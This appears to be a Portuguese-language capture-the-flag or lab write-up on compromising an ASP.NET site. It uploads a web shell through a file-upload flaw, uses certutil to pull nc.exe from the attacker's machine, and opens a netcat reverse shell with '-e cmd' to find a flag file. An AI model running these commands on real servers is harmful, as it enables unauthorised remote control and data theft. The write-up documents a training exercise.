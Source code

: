 
# Depois de levantar informações específicas como o lugar onde tem uma falha para upar arquivos e deletar, o lugar onde esses arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo: tudo favorável para subir o shell.

## Contexto para subir o shell:
Sabendo que a tecnologia do site é ASP.NET, podemos procurar um Shell que seja `.ASPNET.aspx`, upar no servidor e acessar ele para injetar comandos.

# 1️⃣ - Procurar no Google o Shell: `github: shell for ASP.aspx`  
# 2️⃣ - Desligar o antivírus do computador.  
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)

# 3️⃣ - Salvar esse shell no arquivo `.aspx`.  
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)

# 💻 Com ele em mãos, é só subir no servidor e acessar.

Acessando o local que descobrimos no DIRSEARCH que é o `magnam` (faz o trabalho do banco de dados).  
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)

# ⬆️ Upando arquivo:  
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)

# ✅ Arquivo UPADO, só acessar agora:  
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)

# 🔎 Acessando o arquivo:  
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)

# ⚠️ `shell.aspx` subiu, porém você ainda não tem controle total para navegar nos diretórios e fazer uma enumeração de arquivos.

# 💡 Próximo passo:  
- Baixar o `nc.exe`.
- Colocar em uma pasta no seu próprio Windows.
- Instalar o Python.
- Colocar o arquivo `nc.exe` lá dentro.
- Iniciar o servidor Python com o `nc.exe` disponível para download.  
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)

📂 Coloquei em uma pasta com o nome "Nova Pasta" e iniciei o servidor Python pelo CMD do Windows.  
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)

# 📥 Agora para baixar usando o shell que subi, use o comando:

```
certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

O Certutil serve para baixar arquivos no Windows. Como está em um servidor HTTP,
basta informar o IP do seu PC e o nome do arquivo para ele salvar no `users/public`
com o nome `nc.exe`.
```

# ✅ Depois de rodar o comando, o sistema vai confirmar que deu sucesso:  
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)

# 📁 Agora é só verificar se ele realmente foi baixado na pasta pública:  
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)

# 🔊 Arquivo upado, precisamos acessar a shell do nosso Windows. Coloque o `nc` para escutar na porta `4444`:  
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)

# ⚡ Porta escutando, basta executar o comando:

```
c:\users\public\nc.exe 192.168.100.168 4444 -e cmd

Esse comando executa o `nc.exe`,
passando o IP e a porta para conectar e o `-e` para executar o `cmd` do Windows.
```

# 📡 Após executar o comando, a porta que está escutando recebe o `cmd`:  
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)

# 💻 Agora é só fazer a enumeração de arquivos e encontrar a flag do arquivo sensível:  
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)

# 📦 Arquivo sensível encontrado:  
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39) 
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)
